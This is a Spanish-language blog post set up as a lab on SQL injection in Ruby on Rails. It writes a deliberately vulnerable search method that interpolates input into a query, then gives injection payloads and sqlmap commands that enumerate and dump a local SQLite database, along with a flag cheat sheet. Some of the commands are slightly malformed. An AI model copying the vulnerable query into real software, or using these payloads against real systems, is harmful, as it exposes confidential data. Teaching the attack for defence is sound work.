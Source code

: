 ```yaml
---
layout: post
title:  "SQL Inyection On Rails"
date:   2016-04-26 00:37:19 -0300
categories: jekyll update
---
```

El siguiente laboratorio tiene como objetivo comprender uno de los ataque más populares en aplicaciones web, Inyección SQL, como muchos sabrán una inyección sql tiene como objetivo hacer consultas a la base de datos mediante la manipulación de los parámetros evitando la autorización del administrador,pudiendo obtener la manipulación y extracción de datos confidenciales que pueden comprometer el modelo de negocio de la compañía.

A continuación vamos a crear una aplicación en Ruby on Rails:

```
rails new My-Application
```
Para este ejemplo crearemos un modelo para el usuario con un atributo name:string

```
rails g model user name:string
```

Además agregaremos un método,cuya función será buscar usuarios por el atributo name.
{% highlight ruby %}
def search(params)
 User.where("name LIKE '#{params}'")
end
{% endhighlight %}

Ahora que ya creamos nuestro primer método vulnerable, vamos a descubrir vulnerabilidad, para ello podemos realizar las siguientes pruebas:

```
localhost:3000/search/1 and 1 = 1 --
localhost:3000/search/1 and sleep(10)
sqlmap -u = “localhost:3000/tests/*” --dbms=”SQLite” --risk=”3” --level= “5”
```

Si un usuario malicioso entra ' OR 1 -- , la consulta SQL resultante será :
```
SELECT * FROM users WHERE name = '' OR 1 --'
```

Explotamos vulnerabilidad

```
sqlmap -u "http://localhost:3000/search/*" --dbms="SQLite" --risk=3 --level=5 --dbs
sqlmap -u "http://localhost:3000/search/*" --dbms="SQLite" --risk=3 --level=5 --dbs
sqlmap -u "http://localhost:3000/search/*" --dbms="SQLite" --risk=3 --level=5 --tables
sqlmap -u "http://localhost:3000/search/*" --dbms="SQLite" --risk=3 --level=5 -T inyections --dump -v 3
```

Ayuda SQLMAP.

```
/sqlmap.py -u URL --dbs/ 
/sqlmap.py -u URL -D --table    
/sqlmap.py -u URL -D -T -columns
/sqlmap.py -u URL -D -T -C --dump


-D:Base de datos
-T:Tablas
-C:Columnas
-U:Usurio

--table 
--columns
--dump
```